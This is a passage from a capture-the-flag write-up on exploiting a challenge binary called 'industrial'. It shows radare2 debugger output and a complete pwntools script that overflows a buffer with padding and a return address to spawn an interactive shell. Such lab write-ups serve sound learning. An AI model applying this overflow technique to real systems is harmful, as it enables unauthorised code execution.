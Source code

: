 ### Testing exploit

```as
[0x7f764c3b2440]> db 0x004011c8
[0x7f764c3b2440]> db 0x004011cd
[0x7f764c3b2440]> dc
Enter the next command : Thanks
INFO: hit breakpoint at: 0x4011c8
[0x004011c8]> dc
(48434) Created process 48491
[0x7ffab8ba77a9]> dc
[+] SIGNAL 17 errno=0 addr=0x3e80000bd6b code=1 si_pid=48491 ret=0
[+] signal 17 aka SIGCHLD received 0 (Child)
[0x7ffab8b30a14]> dc
INFO: hit breakpoint at: 0x4011cd
[0x004011cd]> dc
```

This confirms we succesfully created a Bash process, but since it's not connected to a terminal, we cannot access it directly. So let's create a python program to input a payload and give us an interactive session. Below is the logic for it:

```py
def exploit(proc):
    proc.recvuntil(b"Enter the next command : ")
    payload = b"A" * 32 + p64(0x01) + p64(0x004011be, endianness='little')
    proc.sendline(payload)
    proc.interactive()
```

<video style="width:100%; height:100%; border-radius:6px" controls autoplay muted loop>
    <source src="/assets/images/articles/industrial.mp4">
</video>

And with this we exploited the binary to provide us the flag!

## Complete Exploit

```python
from pwn import *

def exploit(proc, attach=False):
    proc.recvuntil(b"Enter the next command : ")
    if attach:
        gdb.attach(proc, gdbscript='b *0x00401260\nc')
        pause()
    payload = b"A" * 32 + p64(0x01, endianness='little') + p64(0x4011be, endianness='little')
    proc.sendline(payload)
    proc.interactive()

def main():
    context.log_level = 'error' 
    context.terminal = ['tmux', 'splitw', '-h']
    elf = context.binary = ELF('/home/mehul/Documents/Codes/challenges/industrial/industrial')
    proc = None
    try:
        proc = process(elf.path)
        output = exploit(proc, attach=False)
    except Exception as e:
        print(f"An error occurred: {e}")
    finally:
        if proc is not None:
            proc.close()

if __name__ == "__main__":
    main()
```